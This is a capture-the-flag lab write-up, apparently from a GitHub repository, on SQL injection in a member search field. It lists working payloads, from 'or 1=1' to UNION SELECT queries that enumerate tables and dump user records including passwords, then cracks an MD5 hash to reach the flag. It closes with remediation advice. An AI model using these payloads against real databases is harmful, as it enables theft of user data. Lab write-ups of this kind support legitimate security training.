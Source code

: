 # 06-SQL_Member_Search

The search filed is vulnerable to sql injections

## The approach

- Go to http://192.168.42.238/index.php?

- On the search field, type `1 or 1=1` and press search button 

- Type this union command on the filed: `1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()`. this returns table name which is users.

- type on the filed: ` -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users`. this returns a list names and surnames by ID.

- from the results you get ( " 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28 " decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result )

## The Exploit #

Users can exploit and destroy sensitive information on your database

## The solution

- Use prepared statements in the backend to prevent users from making queries with user input
- validate user inputs from back end before proceeding.

## Resources
https://www.md5online.org/md5-decrypt.html  
sha256-hash-generator/ 


https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#InlineSamples